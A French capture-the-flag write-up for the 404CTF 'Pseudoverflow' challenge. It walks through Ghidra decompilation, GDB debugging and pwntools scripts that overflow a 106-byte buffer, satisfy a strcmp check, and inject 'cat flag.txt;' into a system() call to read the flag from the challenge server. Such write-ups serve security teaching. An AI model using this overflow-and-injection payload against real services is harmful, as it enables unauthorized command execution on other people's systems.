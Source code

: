# Pseudoverflow

## Sujet

```md
Course annuelle

Bienvenue à tous dans la course annuelle du 404CTF : les inscriptions sont ouvertes !! Votre pseudo sera-t-il à la hauteur de nos attentes ?

Objectif: lire le fichier flag.txt
 
Auteur: @Narcisse
```

[Cet exécutable](./course) est fournit, ainsi que l'adresse et port sur lesquel le service à exploit tourne.

# Analyse statique

À l'aide de Ghidra on obtient ces deux fonctions :

```C
undefined8 main(void)

{
  int iVar1;
  char local_78 [106];
  undefined4 local_e;
  undefined2 local_a;
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  local_e = 0x64726570;
  local_a = 0x73;
  puts(&DAT_00102008);
  fgets(local_78,0x100,stdin);
  iVar1 = strcmp((char *)&local_e,"gagne");
  if (iVar1 == 0) {
    win(local_78);
  }
  else {
    puts("Nous vous recontacterons dans les prochaines semaines.");
  }
  return 0;
}
```

```C
void win(char *param_1)

{
  system(param_1);
  return;
}
```

La fonction `fgets` dans main étant vulnérable à un buffer overflow, on va exploiter cette vulnérabilité pour modifier la variable `local_e` afin de passer la condition suivante et atteindre la fonction `win` :

```C
  iVar1 = strcmp((char *)&local_e,"gagne");
  if (iVar1 == 0) {
    win(local_78);
  }
```

Nous devrons ensuite utiliser l'appel system dans la fonctonion `win` pour ouvrir le fichier `flag.txt`.
Nous n'avons pas besoin d'analyse dynamique, passons directement à l'exploit.

# Analyse dynamique 

D'après l'analyse statique, la variable `local_78` utilisé en tant que buffer est de 106 bytes, et la variable `local_e` qui doit contenir `gagne` est stocké juste après dans la stack. Tentons de la modifier avec ce script :

```python
from pwn import *

offset = 106

payload = b"".join([
    b"\x41"*offset,
    b"gagne",
    b"\n",
])

p = process("./course")
input("Waiting for debugger...") # Pour ouvrir le process sous GDB
p.send(payload)
p.interactive()
```

```console
$ python3 exploit.py          
[+] Starting local process './course': pid 6204
Waiting for debugger...
[*] Switching to interactive mode
[*] Process './course' stopped with exit code 0 (pid 6204)
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
Nous vous recontacterons dans les prochaines semaines.
[*] Got EOF while reading in interactive
$ 
```

Le code ne semble pas atteindre la fonction `win`. Allons voir sous GDB ce qu'il se passe :

```gdb
───────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x5621850ac22e <main+009a>      lea    rdx, [rip+0xe3c]        # 0x5621850ad071
   0x5621850ac235 <main+00a1>      mov    rsi, rdx
   0x5621850ac238 <main+00a4>      mov    rdi, rax
 → 0x5621850ac23b <main+00a7>      call   0x5621850ac060 <strcmp@plt>
   ↳  0x5621850ac060 <strcmp@plt+0000> jmp    QWORD PTR [rip+0x2fb2]        # 0x5621850af018 <strcmp@got.plt>
      0x5621850ac066 <strcmp@plt+0006> push   0x3
      0x5621850ac06b <strcmp@plt+000b> jmp    0x5621850ac020
      0x5621850ac070 <setvbuf@plt+0000> jmp    QWORD PTR [rip+0x2faa]        # 0x5621850af020 <setvbuf@got.plt>
      0x5621850ac076 <setvbuf@plt+0006> push   0x4
      0x5621850ac07b <setvbuf@plt+000b> jmp    0x5621850ac020
───────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
strcmp@plt (
   $rdi = 0x00007ffe9bb8445a → 0x00000a656e676167 ("gagne\n"?),
   $rsi = 0x00005621850ad071 → 0x4e0000656e676167 ("gagne"?),
   $rdx = 0x00005621850ad071 → 0x4e0000656e676167 ("gagne"?)
)
```

La variable `local_e` contient le charactère "\n". Rajoutons un null byte pour signaler la fin du string :

```python
from pwn import *

offset = 106

payload = b"".join([
    b"\x41"*offset,
    b"gagne\x00",
    b"\n",
])

p = process("./course")
input("Waiting for debugger...")
p.send(payload)
p.interactive()
```

```console
$ python3 exploit.py
[+] Starting local process './course': pid 6241
Waiting for debugger...
[*] Switching to interactive mode
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
[*] Process './course' stopped with exit code 0 (pid 6241)
sh: 1: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgagne: not found
[*] Got EOF while reading in interactive
$
```

Nous exécutons effectivement du code : nous avons atteint la fonction `win`. Tentons de contrôler le code exécuté.
D'après l'analyse statique, la fonction `win` exécute le string passé en argument :

```C
void win(char *param_1)

{
  system(param_1);
```

Et la fonction main passe la variable `local_78` (utilisé en tant que buffer) à la fonction `win` :

```C
win(local_78);
```

Injectons le code à exécuter dans la variable `local_78` :

```python
from pwn import *

offset = 106
cat = b"cat flag.txt;"

payload = b"".join([
    cat,
    b"\x00"*(offset-len(cat)),
    b"gagne\x00",
    b"\n",
])

p = process("./course")
input("Waiting for debugger...")
p.send(payload)
p.interactive()
```

```console
$ echo flagIsHere > flag.txt

$ python3 exploit.py
[+] Starting local process './course': pid 6342
Waiting for debugger...
[*] Switching to interactive mode
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
flagIsHere
[*] Got EOF while reading in interactive
$ 
[*] Process './course' stopped with exit code 0 (pid 6342)
```

On a bien ouvert le fichier voulu. Essayons maintenant d'exploit le service mis en ligne.

# Exploit

Nous allons envoyer le payload avec [ce script](./exploit.py) :

```console
$ python3 exploit.py
[+] Opening connection to challenges.404ctf.fr on port 31958: Done
[*] Switching to interactive mode
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
404CTF{0v3rfl0w}[*] Got EOF while reading in interactive
$ 
[*] Closed connection to challenges.404ctf.fr port 31958
```

On obtient bien le flag : `404CTF{0v3rfl0w}`.
